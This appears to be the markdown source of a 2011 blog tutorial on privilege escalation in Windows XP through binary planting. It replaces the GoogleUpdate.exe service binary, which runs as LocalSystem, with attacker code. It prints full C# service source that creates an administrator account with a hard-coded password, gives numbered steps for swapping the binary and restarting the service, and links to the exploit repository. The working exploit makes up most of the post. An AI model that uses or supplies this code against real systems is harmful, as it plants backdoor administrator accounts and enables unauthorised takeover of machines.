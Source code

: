 ```yaml
---
layout: blog-post
title: "Privilege escalation on Windows using Binary Planting"
excerpt: "Privilege escalation on Windows using Binary Planting"
disqus_id: /2011/09/23/privilegeescalation/
location: New Delhi, India
time: 11:00 PM
tags:
- Privilege Escalation
- Windows
---
```


This article is a tutorial on how to trick Windows XP into giving you system privileges using Binary Planting. There have been other previlege escalation methods which are no longer useable:

* [Escalation using at command] (http://h0bbel.p0ggel.org/windows-xp-privilege-escalation-exploit-no-it-isnt)
* [Escalation using Utilman.exe](http://technet.microsoft.com/en-us/security/bulletin/ms04-019)

Microsoft Windows services, formerly known as NT services, enable you to create long-running executable applications that run in their own Windows sessions. These services can be automatically started when the computer boots, can be paused and restarted, and do not show any user interface. Each service executes in the security context of a user account.

You can specify one of the following special accounts instead of specifying a user account for the service:

* [LocalService](http://msdn.microsoft.com/en-us/library/ms684188.aspx)
* [NetworkService](http://msdn.microsoft.com/en-us/library/ms684272.aspx)
* [LocalSystem](http://msdn.microsoft.com/en-us/library/ms684190.aspx)

LocalSystem has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs; these accounts have access to most system objects. 

If you open *services.msc* you can see many Windows services running with **LocalSystem** account. Most of the Windows services run under the process svchost.exe by supplying different command line parameters to it. Now imagine what will happen if we replace svchost.exe with our own custom *svchost.exe* having malicious code. This file replacement will result in privelege escalation and execution of exploit code. This can even happen remotely if you are able to connect to remote machine and replace *svchost.exe*. Fortunately, *svchost.exe* and many of the Windows critical executables are protected by [Windows File Protection] (http://en.wikipedia.org/wiki/Windows_File_Protection)

![](/images/Blog/services.png)  

However, depending on your computer configuration, there will be some other 3rd party services which have been installed and run under the different process. For example, in the screenshot below there is a service called **Google Update service** which runs under LocalSystem account in the process **GoogleUpdate.exe**. This process is generally called from this location **C:\Program Files\Google\GoogleUpdate.exe**.

![](/images/Blog/gpupdate.png)  

Now, even as a restricted user, nobody is stopping me from deleting or replacing this file. If we replace this **GoogleUpdate.exe** with the malicious one and then restart the Google Update Services, no file integrity check is performed by OS or Google Update Services to verify that file being executed is original or malicious. This makes the system vulnerable to be exploited since we can run any malicious code under System account simply by replacing this file and then executing the service, which can be done as restricted user.

![](/images/Blog/gservice.png)  

Here is a simple Windows Service code which produces the executable called **GoogleUpdate.exe** , creates a user and adds it to the Administrators group.

{% highlight csharp %}
namespace Google.MakeAdmin.Exploit
{
    using System;
    using System.Diagnostics;
    using System.ServiceProcess;
    using System.DirectoryServices;

    public partial class MakeAdmin : ServiceBase
    {
        private readonly string sSource;
        private readonly string sLog;        

        /// <summary>
        /// Initializes a new instance of the <see cref="MakeAdmin"/> class.
        /// </summary>
        public MakeAdmin()
        {
            InitializeComponent();
            sSource = "Google.MakeAdmin.Exploit";
            sLog = "Application";
        }

        /// <summary>
        /// When implemented in a derived class, executes when a Start command is sent to the service by the 
        /// Service Control Manager (SCM) or when the operating system starts (for a service that starts automatically). 
        /// Specifies actions to take when the service starts.
        /// </summary>
        /// <param name="args">Data passed by the start command.</param>
        protected override void OnStart(string[] args)
        {
            if (!EventLog.SourceExists(sSource))
            {
                EventLog.CreateEventSource(sSource, sLog);
            }


            const string login = "superboy";
            const string password = "pass@word1";
            const string fullName = "Clark Kent";

            CreateUserAccount(login, password, fullName, true, true);

        }

        /// <summary>
        /// When implemented in a derived class, executes when a Stop command is sent to the service by the 
        /// Service Control Manager (SCM). Specifies actions to take when a service stops running.
        /// </summary>
        protected override void OnStop()
        {
        }

        /// <summary>
        /// Creates the user account.
        /// </summary>
        /// <param name="login">The login.</param>
        /// <param name="password">The password.</param>
        /// <param name="fullName">The full name.</param>
        /// <param name="isAdmin">if set to <c>true</c> [is admin].</param>
        /// <param name="isNew">if set to <c>true</c> [is new].</param>
        private void CreateUserAccount(string login, string password, string fullName, bool isAdmin, bool isNew)
        {
            try
            {
                DirectoryEntry dirEntry = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer");
                DirectoryEntries entries = dirEntry.Children;
                DirectoryEntry newUser = null;
                if (isNew)
                {
                    newUser = entries.Add(login, "user");
                }
                else
                {
                    newUser = entries.Find(login, "user");
                }

                newUser.Properties["FullName"].Add(fullName);
                newUser.Invoke("SetPassword", password);
                newUser.CommitChanges();

                // Remove the if condition along with the else to create user account in "user" group.
                DirectoryEntry grp;
                if (isAdmin)
                {
                    grp = dirEntry.Children.Find("Administrators", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }
                else
                {
                    grp = dirEntry.Children.Find("Guests", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }

            }
            catch (Exception ex)
            {
                EventLog.WriteEntry(sSource, ex.Message);
            }
        }
    }
}
{% endhighlight %}

##Exploiting the Service running with LocalSystem Account##

1. Compile the file to generate a new service executable named **GoogleUpdate.exe** and replace it with the original file stored at the location **C:\Program Files\Google\GoogleUpdate.exe**
2. Restart the service. This will cause our exploit code to be executed and a new user will be created in the system with Administrator privileges. In my example, user will have login name *superboy* and password *pass@word1*.
3. Try to run the command prompt with the credentials of new user.
![](/images/Blog/runcmd.png)

![](/images/Blog/login.png)

4. The command prompt executed is under the credentials of superboy and has superuser access.

The exploit code can be downloaded from [this](https://github.com/madhur/Google.MakeAdmin.Exploit) github repository.


